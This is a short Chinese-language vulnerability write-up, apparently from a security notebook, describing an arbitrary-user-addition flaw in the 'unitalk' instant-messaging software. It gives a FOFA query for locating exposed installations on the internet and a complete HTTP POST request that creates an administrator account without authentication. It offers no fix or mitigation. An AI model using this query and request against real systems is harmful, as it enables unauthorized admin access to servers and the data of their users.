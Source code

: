 # unitalk存在任意用户添加漏洞

# 一、漏洞简介
unitalk是一款即时通讯软件，unitalk存在任意用户添加漏洞

# 二、影响版本
+ unitalk

# 三、资产测绘
+ fofa`title="unitalk"`
+ 特征

![1723520849027-9f8e29d4-1ac6-46e0-b014-eb6ac435cc13.png](./img/21G5icesDMJ_SYeY/1723520849027-9f8e29d4-1ac6-46e0-b014-eb6ac435cc13-275032.png)

# 四、漏洞复现
```plain
POST /unitalk/v1.0/user/add.json HTTP/1.1
Host: 
Content-Type: application/json;charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Content-Length: 62

{"name":"admin123","role":"admin","pwd":"admin123","token":""}
```

![1723521483724-f75815f8-4d99-4335-9f9e-a9e515d80f87.png](./img/21G5icesDMJ_SYeY/1723521483724-f75815f8-4d99-4335-9f9e-a9e515d80f87-382491.png)



> 更新: 2024-09-05 23:21:35  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/liqozczwz3ct02br>